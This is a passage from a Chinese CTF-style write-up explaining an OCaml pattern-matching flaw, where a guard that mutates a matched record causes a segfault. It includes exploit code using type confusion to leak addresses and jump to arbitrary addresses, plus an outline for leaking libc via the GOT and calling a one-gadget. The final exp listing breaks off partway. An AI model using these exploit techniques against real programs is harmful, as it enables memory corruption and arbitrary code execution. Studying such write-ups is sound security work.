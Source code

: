 这段代码执行会直接`Segmentation fault (core dumped)`，原因在于调用`f `{` a = true; b = Some 5`}``的时候，关注到第三个匹配`_ when (x.b &lt;- None; false) -&gt; 2`，由于这里执行了赋值操作`x.b &lt;- None`（将None赋值给b），但是仍然是永远`false`，所以仍会匹配到第四个``{` a = true; b = Some y `}``。<br>
问题在于，虽然`b`已经被赋值为`None`，由于Ocaml本身的实现问题，匹配的时候仍是采用原来的值，即`Some 5`；但是最后对`y`解引用的时候，实际上是对`None`进行解引用，当然会`Segmentation fault`。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

所以基于这个漏洞，可以实现读引用的地址、类型转换、任意地址写、任意函数执行等的效果，比如exp中：

```
let s = "AAAAAAAAAAAAAAAAAAAAA"
type s = C of int | D of (string )
let leak (x1,x2) s =
  match (x1,x2) with
    (false,_) -&gt; 0
  | (_,`{`contents=D _`}`) -&gt; 1
  | _ when (x2 := D(s); false) -&gt; 2
  | (true, `{`contents=C y`}`) -&gt; y
```

`leak`函数中`x2 := D(s)`实现了以`s`为参数调用`D`的构造函数，并将其赋值给`x2`，最后返回的`y`就是这个`x2`，从而将`s`的地址给泄露出来。<br>
以及：

```
type s2 = G of int | H of (int -&gt; string)
let s = "AAAAAAAAAAAAAAAAAAAAA"
let bye (x1, x2) y =
   match (x1, x2) with
    (false, _) -&gt; "ab"
  | (_, `{`contents=G _`}`) -&gt; "b"
  | _ when (x2 := G y; false) -&gt; "c"
  | (true, `{`contents=H y`}`) -&gt; y 0
```

`bye`中通过`x2 := G y`将`x2`改为传入的参数`y`，最后将`y`中存放的地址作为类似于函数指针进行执行，由于`y`是传入的参数，所以相当于实现了任意地址跳转的功能。

所以通过以上方法，先泄露出程序基址，再从got表中泄露出libc地址，再任意地址写入onegadget，通过`bye`执行即可。<br>
至于为何leak出来的地址要做一些`*2`甚至`+1`的操作，原因尚不明确，但是用IDA分析一下编译出来的`exploit.exe`，可以发现这些地址确实都进行了奇怪的处理，比如写在ocaml程序里的常数，编译出来的结果是`*2`之后的。<br>
不过影响不大，做一下对称的处理就行。

### <a class="reference-link" name="exp"></a>exp

```
open Bytes
open Printf
type t = A of int | B of (bytes)                                
type s = C of int | D of (string )
type t2 = E of int | F of (int ref)
type s2 = G of int | H of (int -&gt; string)
let s = "AAAAAAAAAAAAAAAAAAAAAAAA"
let bye (x1, x2) y =
   match (x1, x2) with
    (false, _) -&gt; "a"
  | (_, `{`contents=G _`}`) -&gt; "b"
  | _ when (x2 := G y; false) -&gt; "c"
  | (true, `{`contents=H y`}`) -&gt; y 1
let rec byebye n x y =
    if n = 0 then bye x y ^ "c" else byebye (n-1) x y ^ "d"
let leak3 (x1,x2) y =
  match (x1,x2) with
    (false, _) -&gt; of_string "a"
  | (_,`{`contents=A _`}`) -&gt; of_string "b"
  | _ when (x2 := A y; false) -&gt; of_string "c"
  | (true, `{`contents=B y`}`) -&gt; y
```